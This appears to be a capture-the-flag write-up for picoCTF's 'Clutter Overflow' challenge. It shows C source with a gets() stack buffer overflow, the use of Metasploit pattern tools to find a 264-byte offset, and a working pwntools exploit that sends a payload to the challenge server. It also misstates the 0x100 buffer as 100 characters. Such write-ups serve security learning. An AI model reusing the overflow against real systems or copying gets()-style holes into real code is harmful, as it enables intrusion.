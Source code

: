 <h1><b>Clutter Overflow</b> Challange from PicoCTF</h1>
<h2>Writup</h2>
Video Writup: https://www.youtube.com/watch?v=rdWtcwosHrk <br>
challange link: https://play.picoctf.org/practice/challenge/216?category=6&page=1 <br>
points : 150

<b>Description</b>: Clutter, clutter everywhere and not a byte to use. 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
From the very first look, we can see at line number 50 gets function is used, which is vulnerable for Buffer overflow vulnerability, so what program doing is it declared global variable GOAL 0xdeadbeef, and code = 0 in the main function. first, it will ask for the user input, whose size expected by the program should be max. 100 char. now there is an if condition which checks code == GOAL ( which is false from the declaration of variables from the program), if it is true it will cat the flag.txt, otherwise, it will exit after printing code value.

![](1st.png)

If we put 300 char long string as an input, the value of code variable get overwrite, so what we can do is we can try to overwrite the value of code variable in 
stack to 0xdeadbeef , so if condition become true and program will cat the flag.txt

<h1><b>EXPLOITATION</b></h1>
for overwriting the value of variable code, we must know after putting how much number of character, the value of code is overwrited. for that we can use meta-
sploit-framework's exploits.
creating pattern string of 300 char:

> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300

<b>output</b>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
so lets put this pattern string in chall as an input

![](2nd.png)

so after putting above pattern, value of code variable become 0x6a41396941386941 , to find the exact match of this sting within the pattern we will use another
metasploit-framework's exploit

> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 6a41396941386941

![](3rd.png)

So the value of code varible is overwritten by the char we had put after putting 264 chars.

to confirm this, what we can do is, we can give a payload of 'A'*264 + 'BCDEF' to the program, so if code variable value comes to 0x4645444342 (which is the value 
of 'BCDEF' in little endian hex), then our exploit gave the correct result.
![](4th.png)
So from the above, we have confirmed that we can overwrite the value of code variable with the chars comes after putting 264 chars.
so we can write an small pwn exploit, to do this

```
import pwn

host = "mars.picoctf.net"
port = 31890
s = pwn.remote(host,port)
s.recvline()
s.recvline()
s.recvline()
payload = b'A'*264 + pwn.p64(0xdeadbeef)
s.sendline(payload)
s.interactive()
s.close()
```
SO what we have did here is, we establish a remote tcp connection with server, then we did s.recvline() to recieve the banner and question. 
then we crafter our payload, since we need to make the if condition true to get the content of flag.txt, we have added pwn.p64(0xdeadbeef) after 264 char.
so it will make the value of code variable same as GOAL variable. after sending the payload, we will have our flag.
![](5th.png)
<br>
  <b> Thank You</b>
                                                                                                              
